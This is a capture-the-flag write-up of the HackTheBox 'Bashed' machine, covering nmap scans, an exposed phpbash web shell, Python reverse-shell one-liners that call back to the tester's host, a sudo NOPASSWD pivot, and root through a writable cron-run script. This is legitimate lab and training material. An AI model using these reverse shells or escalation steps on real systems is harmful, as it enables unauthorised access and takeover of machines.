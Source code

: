 ```yaml
---
description: Bashed box from HackTheBox write up.
---
```


# Bashed

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --min-rate 1000 -p- 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 11:38 EST
Nmap scan report for 10.10.10.68
Host is up (0.052s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.34 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p80 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 11:40 EST
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
```

Only port 80 open so let's check that website.

## Port 80

Well the webpage looks like a blog and it only has one article speaking about a tool called `phpbash`. This tool provides a semi-interactive web shell to the machine and according to the author article, he developed it in the same server that is hosting the page.

The article contains an image that looks like reveals the location of the tool in the `/uploads` directory but it is not there. Since the author said that he developed it, I tried to check something like a `/dev` directory and it worked! This directory not only has directory listing enabled, it contains the `phpbash` utility.

### Getting a reverse shell

After some try and error, I was able to get a python reverse shell using:

```bash
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.10.14.40",8000));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

Now we can just upgrade it to a full `tty`. The user flag is under `/home/arrexel/user.txt`.

## Privilege escalation

### As www-data

Once in the machine, I tried some basic enumeration commands and this is interesting:

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The user `www-data` can execute commands as `scriptmanager` without password so we can just execute bash as that user to impersonate it:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash -p
scriptmanager@bashed:/home/arrexel$
```

### As scriptmanager

I decided to look for all the files owned by this user with:

```bash
scriptmanager@bashed:/scripts$ find / -user scriptmanager 2> /dev/null 
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
/proc/10983
/proc/10983/task
...REDACTED...
```

The `scripts` folder looks promising, it contains a Python script and also a file owned by `root` called `test.txt`. Checking the script looks like that `txt` file is the output of the code. 

Looks like there is a `cron` job executing the script as `root` because the file creation date is updated every minute or so. Since we can change the script we could get a reverse shell as the `root` user changing the script content to this:

```bash
a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.10.14.40",8080));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")
```

Now it is time to spin up a listener and wait...

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.10.68] 42738
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

And we got a `root` shell! The flag is under `/root/root.txt`
